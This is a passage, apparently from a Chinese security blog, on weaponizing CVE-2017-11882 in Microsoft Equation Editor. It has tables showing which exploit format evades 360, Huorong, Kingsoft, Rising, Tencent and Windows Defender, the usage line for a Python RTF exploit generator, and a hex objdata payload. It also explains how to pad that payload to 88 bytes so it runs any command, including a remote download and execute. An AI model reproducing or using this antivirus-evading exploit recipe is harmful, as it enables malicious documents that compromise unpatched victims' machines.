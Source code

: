  火绒/360 检测大致有两个层面，首先 EQNEDT32.EXE 进程敏感操作拦截，如执行 cmd 或其他指令，第二再 0x411655 地址内存补丁，检测拷贝大小是否越界。

-   格式 1，msf 原生&常规格式 exp 免杀效果：
    
    ```bash
    名称  360 智量  火绒  金山  瑞星  腾讯  WinDefender
    免杀  Kill    Kill    Kill    Kill    Kill    Kill    kill
    ```
    
-   格式 2，免杀效果：
    
    ```bash
    名称  360 智量  火绒  金山  瑞星  腾讯  WinDefender
    免杀  Kill    Bypass  Kill    Bypass  Bypass  Bypass  Bypass
    ```
    

  格式 2-exp 基于 18 年 360 捕获野外样本进行利用，部分杀软对变种没有进行很好的拦截，也没有做内存补丁拷贝溢出监视，有一定免杀效果。用免杀较好的格式 2 编写了.py 生成，需要注意使用如下：

```bash
用法格式：python cve-2017-11882-exp.py -c "cmd.exe /ccalc.exe &" -o 123456.rtf
```

  注意：生成 exp 需要手动调整，下述标红便是输入的”cmd.exe /ccalc”指令，红色和绿色之间加上一个字符 (41 41 41 中间随意插入)，凑够 88 个字节 (生成后是 87 个)。

```bash
{\*\objdata 01050000020000000b0000004571756174696f6e2e3300000000000000000041000000030101030a0a0401010112836100080000636d642e657865202f6363616c632e657865202641414141414141414141414141414141414141414141414120c43000105000000000000}
[*] Done ! output file >> 123456.rtf <<
```

  nodepad 打开 exp，搜索 41414141 快速定位，按照上述补齐 88 个字节，这 88 个字节可以等换任意可执行的指令，比如执行%temp%xxx.exe 或[http://远程下载](http://xn--ghqp68hvpn1ka/) & 执行。

[![](assets/1708482417-96bbf6e6c52ccbadcea8b230ed2937a7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220084722-9b8bdc58-cf89-1.png)
